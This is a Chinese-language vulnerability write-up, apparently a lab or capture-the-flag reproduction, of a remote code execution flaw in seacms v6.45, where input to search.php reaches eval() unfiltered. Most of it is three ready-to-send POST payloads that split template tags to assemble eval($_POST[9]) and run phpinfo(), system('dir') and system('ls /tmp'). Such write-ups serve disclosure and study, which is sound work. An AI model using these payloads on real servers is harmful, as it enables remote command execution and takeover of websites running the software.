 # seacms v6.45 任意代码执行漏洞 by [Aa1141415869](https://github.com/Aa1141415869)

## 一、漏洞描述

seacms v6.45 中有个可控的变量没有经过过滤，就被带入了 eval() 中，导致了代码执行。

## 二、漏洞复现

使用 hackbar 插件进行漏洞复现

### 1. 代码执行

http://xxxxxxxx/search.php

post数据：

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=ph&9[]=pinfo();
```

![](./_v_images/20200527192102787_714.png)

### 2. 命令执行

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=system&9[]=('dir');
```

![](./_v_images/20200527192615646_24839.png)

### 3. 获取Flag

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=system&9[]=('ls /tmp');
```

![](./_v_images/20200527192528773_13488.png)
